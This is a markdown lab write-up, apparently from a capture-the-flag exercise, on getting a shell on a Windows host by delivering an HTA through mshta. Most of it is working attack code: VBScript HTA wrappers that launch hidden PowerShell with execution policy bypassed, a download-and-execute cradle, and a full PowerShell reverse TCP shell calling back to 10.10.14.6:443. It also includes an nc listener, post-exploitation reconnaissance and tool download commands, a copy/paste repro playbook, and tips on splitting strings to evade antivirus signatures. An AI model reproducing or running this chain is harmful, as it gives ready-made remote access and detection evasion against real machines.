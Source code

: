 # HTA → PowerShell Reverse Shell (Lab Notes)

**Goal:** Obtain a shell on a Windows target with legacy Windows Defender (circa 2020) by delivering and executing a payload that bypasses static signatures.
Can be used for initial shell.
---

## Environment & Constraints
- Target: Windows (likely x64), legacy Defender signatures.
- Attacker: Kali-like Linux VM (tun0: `10.10.14.6`).
- Egress uncertainty (443/80/8080/53).
- Disk space constraints on attacker box → built/served from `/dev/shm`.
- Initial payload: `smb.exe` (x86) → Donut → `shell.ps1`.
- Delivery: `.hta` executed via `mshta`.

---

## Attempt A (Donut + HTA) — **Delivered, no session**
**What we did**
1. Donut on x86 binary (kept 32-bit):
   ```bash
   donut -i smb.exe -f 6 -a 1 -e 3 -b 3 -o shell.ps1
   ```
2. Served files:
   ```bash
   cd /dev/shm && python3 -m http.server 80
   ```
3. HTA wrapper (forced 32-bit PS to match x86 shellcode):
   ```html
   <html><head><script language="VBScript">
   Dim cmd
   cmd = "%windir%\SysWOW64\WindowsPowerShell1.0\powershell.exe -nop -w hidden -ep bypass -c ""IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.6/shell.ps1')"""
   CreateObject("Wscript.Shell").Run cmd,0
   </script></head><body></body></html>
   ```
4. Triggered:
   ```powershell
   mshta http://10.10.14.6/policy_2025.hta
   ```

**What we observed**
- HTTP server logs showed:
  - `GET /policy_2025.hta` (HTA executed)
  - `GET /shell.ps1` (PS downloaded Donut script)
  - Instrumented canaries confirmed 32‑bit PS, bytes downloaded, and post‑`IEX` reached.
- **No callback** to Metasploit (likely staging/arch/payload mismatch or egress filter).

**Key gotchas identified**
- PowerShell `-enc` expects **UTF‑16LE** base64, not UTF‑8.
- x86 shellcode must run under **SysWOW64** PowerShell on x64 hosts.
- Staged Meterpreter often flagged/blocked; handler/payload must match exactly (arch + staged/stageless + protocol).

---

## Working Approach B (Raw PS TCP reverse shell) — **Success**
We pivoted away from Meterpreter/Donut and used a minimal PowerShell reverse TCP one‑liner embedded directly in an HTA.

### 1) Listener (attacker)
```bash
rlwrap nc -lvnp 443
```

### 2) HTA (served from `/dev/shm/rs.hta`)
```html
<html><head><script language="VBScript">
Dim cmd
cmd = "%windir%\SysWOW64\WindowsPowerShell1.0\powershell.exe -nop -w hidden -ep bypass -c ""$null=(iwr http://10.10.14.6/ps_ran_rev);$h='10.10.14.6';$p=443;$c=New-Object Net.Sockets.TCPClient($h,$p);$s=$c.GetStream();$b=New-Object Byte[] 65535;while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=[Text.Encoding]::ASCII.GetString($b,0,$i);try{$o=(iex $d 2>&1|Out-String)}catch{$o=$_.Exception.Message};$o=$o+'PS '+(pwd).Path+'> ';$sb=[Text.Encoding]::ASCII.GetBytes($o);$s.Write($sb,0,$sb.Length)}$c.Close()"""
CreateObject("Wscript.Shell").Run cmd,0
</script></head><body></body></html>
```

> Notes:
> - **SysWOW64** path forces 32‑bit PowerShell (consistent with our earlier x86 payloads).
> - The `iwr ... /ps_ran_rev` HTTP canary gave immediate proof PS started on target.
> - This approach avoids Donut/Meterpreter stagers and their signatures.

### 3) Serve & trigger
```bash
cd /dev/shm && python3 -m http.server 80
mshta http://10.10.14.6/rs.hta?t=1
```

**Result:** `rlwrap nc` received a connection. Commands (e.g., `whoami`) executed interactively.

---

## Verification Artifacts (HTTP server logs)
Typical success sequence:
```
GET /rs.hta?t=1        200
GET /ps_ran_rev        200 (canary; any 200/404 proves PS started)
```
(When using the Donut flow earlier, also saw `GET /shell.ps1` and canaries like `/canary?arch=32`, `/canary?afterIEX`.)

---

## Post‑Exploitation Quick Checks
Run immediately after shell lands:
```powershell
whoami /all
hostname
$env:COMPUTERNAME; $env:USERDOMAIN; $env:USERDNSDOMAIN
ipconfig /all
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
net localgroup administrators
query user
```
Download tools:
```powershell
$wc=New-Object Net.WebClient
$wc.DownloadFile('http://10.10.14.6/tool.exe','C:\Windows\Temp	ool.exe')
```

---

## Why Attempt A failed (most likely)
- **Staging/Signature**: Staged Meterpreter stagers are commonly detected even by 2020 Defender.
- **Handler mismatch**: Any mismatch (x86/x64, http/https, staged/stageless) results in silence.
- **Egress**: Handler port may have been filtered; raw TCP shell on 443 worked reliably.

---

## Disk Space Remediation (attacker)
To recover space quickly:
```bash
rm -rf ~/.msf4/{loot,logs,bootsnap_cache}/*
rm -rf ~/.nuget/packages/*
sudo apt clean && sudo apt autoremove --purge -y
sudo journalctl --vacuum-time=3d
find ~/Covenant -type d \( -name bin -o -name obj -o -name publish \) -prune -exec rm -rf {} +
```
Build artifacts in RAM to avoid future ENOSPC:
```bash
export TMPDIR=/dev/shm
cd /dev/shm
```

---

## Repro Playbook (copy/paste)
```bash
# 1) Listener
rlwrap nc -lvnp 443

# 2) Create HTA
cat > /dev/shm/rs.hta <<'HTA'
<html><head><script language="VBScript">
Dim cmd
cmd = "%windir%\SysWOW64\WindowsPowerShell1.0\powershell.exe -nop -w hidden -ep bypass -c ""$null=(iwr http://10.10.14.6/ps_ran_rev);$h='10.10.14.6';$p=443;$c=New-Object Net.Sockets.TCPClient($h,$p);$s=$c.GetStream();$b=New-Object Byte[] 65535;while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=[Text.Encoding]::ASCII.GetString($b,0,$i);try{$o=(iex $d 2>&1|Out-String)}catch{$o=$_.Exception.Message};$o=$o+'PS '+(pwd).Path+'> ';$sb=[Text.Encoding]::ASCII.GetBytes($o);$s.Write($sb,0,$sb.Length)}$c.Close()"""
CreateObject("Wscript.Shell").Run cmd,0
</script></head><body></body></html>
HTA

# 3) Serve
cd /dev/shm && python3 -m http.server 80

# 4) Trigger on target
# mshta http://10.10.14.6/rs.hta?t=1
```

---

## Optional Hardening/OPSEC
- Randomize variable/class names and split suspicious strings (e.g., 'Net.Sock'+'ets.TCP'+'Client').
- Use allowed egress port (443/80/8080/53), validated by `tcpdump`.
- After you’re in, consider pivoting to a more feature‑rich agent over the same egress port.

---

*These notes are for lab/education use only, matching the environment controlled in this exercise.*
